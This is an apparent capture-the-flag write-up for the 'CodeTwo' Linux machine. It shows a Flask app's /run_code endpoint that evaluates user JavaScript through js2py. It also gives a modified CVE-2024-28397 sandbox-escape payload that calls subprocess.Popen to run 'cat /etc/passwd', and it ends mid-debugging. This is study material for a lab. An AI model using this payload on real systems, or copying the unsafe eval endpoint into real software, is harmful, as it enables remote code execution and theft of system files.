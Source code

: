 # CodeTwo Machine Linux 

# Port 8000
From `nmap` scan I found port `8000`. 

From the **download app** we got a zip file with **app.py**. In this file there was a hardcoded **Flask** secret key.

In that same file I was able to find:
```
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

That /run_code endpoint is a goldmine because it gives you arbitrary JS execution via js2py. 
And js2py isn’t safe — it can be escaped into Python and then into system RCE. 
The challenge is to craft the right payload to break out of the JS interpreter and get command execution.

I went online and tried to see if there was any exploits for this and found:
https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape

Making sure to only use the JS payload in the sandbox I had to tweak the last line to:
`findpopen(obj)(["/bin/sh","-c","cat /etc/passwd"], 0, null, null, -1).communicate()[0].decode()`, why?


When I first tried to call `subprocess.Popen` through my `findpopen` function, I copied a payload that looked like this:

```js
findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
```

But that blew up with:

```
Error: 'Non-Type' object is not callable
```

That told me either I wasn’t actually calling the `Popen` class, or I was passing the wrong arguments. After debugging a bit (printing out `findpopen(obj).__module__` and `.__name__`), I confirmed I really was reaching `subprocess.Popen`. So the issue had to be the way the arguments were mapped.

In Python, `subprocess.Popen` has the signature:

```python
Popen(args, bufsize=-1, executable=None, stdin=None, stdout=None, ...)
```
